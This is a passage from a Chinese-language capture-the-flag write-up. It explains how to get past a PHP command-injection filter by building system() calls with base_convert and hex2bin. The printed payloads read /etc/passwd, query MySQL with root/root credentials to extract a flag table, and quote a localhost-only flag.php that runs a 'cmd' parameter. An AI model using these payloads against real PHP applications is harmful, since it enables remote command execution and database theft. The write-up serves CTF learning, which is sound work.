```c
echo base_convert('ls', 36, 10);
```

可以用这个函数来转换字符串,

base_convert(1751504350,10,36)(base_convert(17523,10,36));这样的话就构造成了system(dir)

![img](../../../../图片/本地图床/1716111041058-d57ae86e-a5d5-4a09-a205-200d592f3009.png)

可以发现报错的最前面有个index.php,说明执行成功,完美~

不过base_convert这个函数有个缺陷只能构造出0-9,a-z,其他整不出来,有些可惜,不过思路打开了

其实如果想继续用这个构造的话可以搭配其他进制转换函数,不过构造会有点恶心.所以搜搜其他解法,

发现php有个特性,想要不带单双引号的整字符串的话,可以在它的前面加上下划线,这样就会被识别成字符串,所以就可以利用另一个进制转换函数hex2bin来构造执行命令了

直接利用php的bin2hex来字符串转成16进制即可

```php
echo(bin2hex("system('cat /etc/passwd');"));
```

![img](../../../../图片/本地图床/1716111858477-ac8dac91-93ba-4d5a-bbd4-f35ed7da19e1.png)

看根目录没flag,猜测可能在数据库里

![img](../../../../图片/本地图床/1716111911072-b9ba7f61-80ac-4fe6-9848-d32121d077b5.png)

/etc/passwd里面有mysql数据库,爆出root/root用户名密码

```php
echo(bin2hex("echo `mysql -u root -p'root' -e 'show databases'`"));
echo(bin2hex("echo `mysql -u root -p'root' -e 'use PHP_CMS;show tables;'`"));
echo(bin2hex("echo `mysql -u root -p'root' -e 'use PHP_CMS;select* from F1ag_Se3Re7'`"));
```

![img](../../../../图片/本地图床/1716112169684-76c4be65-7714-416b-9667-ffa3811c664a.png)

#### easycms_revenge

看题目描述是昨天的easycms升级版，但最后好像也没升级啥。日，昨天找到了ssrf点，但没打通，可惜了

首先他是一个xunrui的cms，github上有他源码https://github.com/dayrui/xunruicms?tab=readme-ov-file

然后在第一天的cms里给了flag.php的源码

```php
if($_SERVER["REMOTE_ADDR"] != "127.0.0.1"){

  echo "Just input 'cmd' From 127.0.0.1";

  return;

}else{

  system($_GET['cmd']);

}
```
